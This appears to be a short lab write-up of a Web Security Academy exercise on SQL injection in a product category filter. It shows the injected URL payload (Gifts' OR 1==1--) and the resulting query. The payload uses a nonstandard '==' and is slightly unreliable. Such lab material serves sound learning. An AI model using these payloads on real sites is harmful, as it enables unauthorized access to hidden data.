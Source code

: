 # First Lab: SQL Injection

Lab - 01 : SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

SQL Injection : Product category filter

End Goal : Outputting all the products even those which are unreleased. 

Analysis : 

1. SQl Injection applicability check → True 
2. Manipulate the URL
    
    ```jsx
    https://0abd0010040720d4cebc62f9005b0087.web-security-academy.net/filter?category=Gifts
    ```
    
    When this URL runs, it creates an SQL request like
    
    ```sql
    SELECT * FROM products WHERE category = 'Gifts' AND released = 1
    ```
    
    We have to exploit this using sql injection. Let us inject code to retrieve all the products. 
    
    ```jsx
    https://0abd0010040720d4cebc62f9005b0087.web-security-academy.net/filter?category=Gifts'+OR+1==1--
    ```
    
    Which will generate a request to the database like this …
    
    ```sql
    SELECT * FROM products WHERE category = 'Gifts' OR 1==1 -- AND released = 1
    ```
    
    So, what this code injection does is, it nullifies the category check and returns the products from all the categories. All the unreleased products are shown too, as we make the rest of the query a comment.